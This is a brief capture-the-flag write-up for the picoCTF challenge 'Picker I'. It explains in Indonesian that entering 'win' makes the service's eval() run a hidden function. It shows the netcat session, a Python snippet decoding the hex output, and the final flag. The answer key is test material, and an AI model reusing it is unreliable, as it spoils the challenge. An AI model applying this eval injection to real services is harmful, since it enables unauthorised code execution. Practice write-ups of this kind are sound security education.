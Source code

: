 <h1>Picker I</h1>
<h3>Description</h3>
<pre>
This service can provide you with a random number, but can it do anything else?
Connect to the program with netcat:
$ nc saturn.picoctf.net 63187
The program's source code can be downloaded <a href='https://artifacts.picoctf.net/c/515/picker-I.py'>here.</a>
</pre>
<h3>Solution</h3>
<p>Input win pada user_input yang akan mengeksekusi fungsi win() dengan eval()</p>

```console
┌──(root㉿Python)-[/home/venom/Downloads]
└─# nc saturn.picoctf.net 63187
Try entering "getRandomNumber" without the double quotes...
==> win
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d 
Try entering "getRandomNumber" without the double quotes...
```
<p>solve</p>

```python3
flag = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d".split(' ')
for i in flag:
    print(chr(int(i[2:],16)),end='')
```
<h3>Flag</h3>
<pre>
picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}
</pre>
